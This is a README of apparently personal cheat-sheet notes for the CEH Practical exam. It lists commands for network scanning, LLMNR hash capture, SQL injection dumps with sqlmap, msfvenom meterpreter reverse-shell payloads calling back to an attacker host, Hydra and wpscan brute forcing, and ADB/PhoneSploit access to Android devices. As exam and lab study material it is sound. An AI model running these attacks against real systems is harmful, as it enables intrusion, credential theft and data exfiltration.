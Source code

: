 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
</details>
<details>
  <summary>Wireshark</summary>
  
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  
  ```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    
  ```console
    ftp x.x.x.x
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  
### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />
  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra

### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* FTP Get command
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```  
</details>
  
# Steganography
  <details>
    <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
<img src="/IMG/Snow.png"/>

</details>
<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
      
  ## VeraCrypt 

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [Wireshark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

Final Words: Grab a cup of Tea ☕ and GRIND!!!

  <img src = "/IMG/motivation.jpg"/>
